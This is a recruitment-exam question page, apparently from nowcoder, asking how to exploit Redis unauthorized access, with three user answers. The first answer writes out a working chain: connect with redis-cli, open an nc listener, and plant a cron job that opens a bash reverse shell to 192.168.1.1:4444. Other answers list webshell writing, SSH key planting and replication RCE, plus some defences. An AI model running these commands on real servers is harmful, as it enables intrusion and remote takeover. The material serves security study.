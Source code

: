 # 美丽联合 2018 校招信息安全开发工程师笔试试卷

## 1

Redis 未授权访问漏洞如何入侵利用？

你的答案

本题知识点

Java 工程师 C++工程师 蘑菇街 安全工程师 2018

讨论

[LLMF](https://www.nowcoder.com/profile/6328897)

主机的 6379 端口对外开放，就可以用本地 Redis 远程连接服务器（redis 在开放往外网的情况下(默认配置是 bind 127.0.0.1，只允许本地访问，如果配置了其他网卡地址那么就可以网络访问)，默认配置下是空口令，端口为 6379）连接后可以获取 Redis 敏感数据。
./redis-cli -h ip 可连接
keys * get key
可以得到 key 对应的值
在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell
先在自己的服务器上监听一个端口
nc -lvnp 4444

然后执行命令:

redis-cli -h 192.168.2.6
set x "\n* * * * * bash -i >& /dev/tcp/192.168.1.1/4444 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save

发表于 2018-05-14 19:51:34

* * *

[CYX！](https://www.nowcoder.com/profile/192853280)

①物理路径，写权限，写 webshell ②root 权限，开启 ssh 免密登录，存在.ssh 目录，可写入公钥 ③开启定时任务，目录具有写权限，服务器不是 Ubuntu 和 debian，可写入定时任务 ④主从复制 rce，设置恶意的从服务器，加载恶意的 so 文件进行 rce

发表于 2020-09-17 01:42:57

* * *

[正能量 y 先生](https://www.nowcoder.com/profile/420034185)

redis-cli -h 192.168.63.130 链接
(1).利用计划任务执行命令反弹 shell
(2).写 ssh-keygen 公钥然后使用私钥登陆
(3).往 web 物理路径写 webshell
保护：限制登录 ip，添加密码，修改默认端口

发表于 2019-04-13 16:45:56

* * *
